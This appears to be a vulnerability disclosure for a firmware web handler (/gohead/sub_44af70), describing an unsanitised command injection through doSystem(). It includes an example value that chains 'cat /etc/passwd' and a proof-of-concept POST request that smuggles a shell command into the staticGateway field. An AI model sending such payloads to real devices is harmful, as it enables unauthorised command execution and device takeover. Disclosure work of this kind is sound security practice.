

# FUN_0044af70 漏洞信息

## 基础信息
- **影响组件**: /gohead/sub_44af70
- **固件版本**: nv518GV3v3.2.7-210919-161313

## 漏洞详情

/gohead/sub_44af70



The attacker controls v3 (target IP) via user input. When doSystem() executes, it passes the command string to a shell. The attacker injects shell metacharacters like ;, |, &, or $(). For example, setting v3 to 127.0.0.1; cat /etc/passwd causes the shell to run arping first, then cat /etc/passwd. No input sanitization is performed, allowing arbitrary system command execution. This leads to full device compromise.

poc:
```
POST /gohead/sub_44af70 HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

wanIndex=1&staticGateway=127.0.0.1; id > /tmp/poc.txt;
```